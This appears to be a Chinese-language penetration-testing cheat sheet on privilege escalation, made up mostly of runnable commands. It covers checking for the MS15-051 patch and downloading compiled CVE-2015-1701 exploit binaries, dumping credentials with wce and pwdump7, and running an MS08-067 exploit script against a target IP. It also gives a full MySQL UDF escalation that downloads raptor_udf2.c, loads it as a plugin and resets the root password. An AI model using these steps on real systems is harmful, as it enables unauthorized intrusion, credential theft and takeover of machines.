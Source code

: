 https://technet.microsoft.com/en-us/security/bulletin/dn602597.aspx #ms15-051

https://www.fireeye.com/blog/threat-research/2015/04/probable_apt28_useo.html


https://www.exploit-db.com/exploits/37049/

# 查找目标机器是否安装了补丁，输入如下命令
wmic qfe get
wmic qfe | find "3057191"

# 上传编译后的利用程序并运行它

https://github.com/hfiref0x/CVE-2015-1701/raw/master/Compiled/Taihou64.exe

# 默认情况下其会以系统权限执行 cmd.exe，但我们需要改变源代码以运行我们上传的 danger.exe
# https://github.com/hfiref0x/CVE-2015-1701 下载它并定位到 "main.c"

# 使用 wce.exe 获取已登录用户的明文账号密码

http://www.ampliasecurity.com/research/windows-credentials-editor/

wce -w

# 使用 pwdump7 获取其他用户的密码哈希值

http://www.heise.de/download/pwdump.html

# we can try online hash cracking tools such crackstation.net
MS08-067 – 不使用 Metasploit

$ nmap -v -p 139, 445 --script=smb-check-vulns --script-args=unsafe=1 192.168.31.205
$ searchsploit ms08-067
$ python /usr/share/exploitdb/platforms/windows/remote/7132.py 192.168.31.205 1
通过 MySQL Root 账户实现提权

# Mysql Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)
$ wget 0xdeadbeef.info/exploits/raptor_udf2.c
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select do_system('echo "root:passwd" | chpasswd > /tmp/out; chown user:user /tmp/out');
